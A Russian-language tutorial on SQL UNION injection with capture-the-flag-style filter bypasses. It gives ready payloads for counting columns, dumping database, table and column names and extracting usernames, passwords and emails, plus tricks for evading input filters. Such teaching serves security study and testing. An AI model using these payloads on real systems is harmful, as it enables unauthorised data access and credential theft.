 # SQL UNION Injection

### Общее представление об атаке SQL UNION Injection

Реализуется в случае, если результаты SQL-запроса возвращаются в ответе приложения. Ответы могут быть разными: ошибки приложения, ошибки сервера, результаты запросов и другие.

**Оператор UNION позволяет запускать один и более SELECT-запросов. Например:**

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

Данный SQL-запрос вернет один ответ с двумя столбцами, содержащими значения из столбцов a и b в table1 и столбцов c и d в table2.

**Чтобы успешно выполнить атаку, необходимо знать:**

* Сколько столбцов возвращается из исходного запроса
* Тип данных каждого столбца

### **Определение количества столбцов:**

Есть два способа определения количества столбцов: через `ORDER BY` и `UNION SELECT`.

**Первый способ** - `ORDER BY`:

```sql
' ORDER BY 1 -- - (200 OK)
' ORDER BY 2 -- - (200 OK)
' ORDER BY 3 -- - (200 OK)
' ORDER BY 4 -- - (500 ERROR)
```

В таблице 3 столбца, так как `' ORDER BY 4` выдает ошибку.

**Второй способ** - `UNION SELECT`:

```sql
' UNION SELECT NULL-- (500 ERROR)
' UNION SELECT NULL,NULL -- - (500 ERROR)
' UNION SELECT NULL,NULL,NULL -- - (200 OK)
' UNION SELECT NULL,NULL,NULL,NULL -- - (500 ERROR)
```

Перебираем NULL, пока не получим 200 ОК, т.к. без ошибок

<mark style="color:green;">**Используем NULL, потому что NULL подходит для всех типов данных.**</mark>

### **Определение типа данных каждого столбца:**

```
' UNION SELECT 'a',NULL,NULL,NULL --
' UNION SELECT NULL,'a',NULL,NULL --
' UNION SELECT NULL,NULL,'a',NULL -- 
```

### **Использование внутренних функций базы данных**:

Когда мы знаем количество столбцов, мы можем сделать данную вещь:

```sql
' UNION SELECT version(),null,null -- -
```

Ответ может быть примерно таким(вместо вывода имени пользователя выводится результат функции `version()`):

```
(...)
Sorry, 8.0.27-0ubuntu0.20.04.1 you are not eligible due to already qualifying.
(...)
```

### **Некоторые функции из MySQL:**

```
@@hostname - имя хоста
@@tmpdir - директория /tmp/
@@datadir - директория /data
@@version - версия БД
@@basedir - базовая директория
user() - имя пользователя
database() - база данных
version() - версия
schema() - база данных
UUID() - системный UUID ключ
current_user() - текущий пользователь
current_user - текущий пользователь
system_user() - системный пользователь
session_user() - сессионый пользователь
@@GLOBAL.have_symlink - проверка на включенные/отключенные символьные ссылки
@@GLOBAL.have_ssl - проверка на SSL
```

### Последовательность действий для выполнения успешной атаки

Выводим все базы данных:

```sql
'union select group_concat(schema_name) from information_schema.schemata
```

Выводим все таблицы из базы данных `database1`:

```sql
'union select group_concat(table_name) from information_schema.tables where table_schema='database1'
```

Выводим все колонки из таблицы `table1`, которая находится в базе данных `database1`:

```sql
'union select group_concat(column_name) from information_schema.columns where table_schema='database1' and table_name='table1'
```

Выводим все данные `username`, `password`, `email` из таблицы `table1`, которая находится в базе данных `database1`:

```sql
Injection=> select group_concat("\n", username,":",password,":",email,"\n") from database1.table1
```

## Обход фильтров

### Запрещено \[ , ' ( ) + = \ " ] + и пробел:

```sql
SELECT * FROM age WHERE age=$age
```

Вместо пробела можно использовать `/**/`, а вместо `where name='b548d45080b9d110'` использовать `where name like 0x62353438643435303830623964313130`:

```sql
1337/**/union/**/select/**/*/**/from/**/flags/**/where/**/name/**/like/**/0x62353438643435303830623964313130
```

### Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) , ] + и обход защиты от select:

```
SELECT * FROM age WHERE age=$age
```

Так как в таблице очень много флагов и нам нужен флаг с `name`=`3f1a76e536a0a805`, то нужно указать фильтр вывода, например, `where name='3f1a76e536a0a805'`, но знак `=` запрещен, следовательно можно использовать `LIKE` вместе с хексовым значением `name`:

```
1337 union Select null,name,flag From flags where name like 0x33663161373665353336613061383035
```

### Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) \* и обход защиты от select:

```
SELECT * FROM age WHERE age=$age
```

Так как мы не можем перебрать количество колонок через `union select null,<null>,<...>`, то можно это сделать через JOIN AS:

```
1337 union Select * from flag JOIN (Select 'qwe') as a
```

Ответ:

```
MySQL error: The used SELECT statements have a different number of columns
```

Пробуем добавить еще одну колонку:

```
1337 union Select * from flag JOIN (Select 'qwe') as a JOIN (Select 'qwe') as b
```

И в ответе мы получаем флаг

### Запрещен SELECT полностью:

```
SELECT * FROM age WHERE age=$age
```

Можно использовать SELSELECTECT, если фильтры единоразово вырезают SELECT без цикла:

```
1337 union SELSELECTECT null,null,flag from flag
```
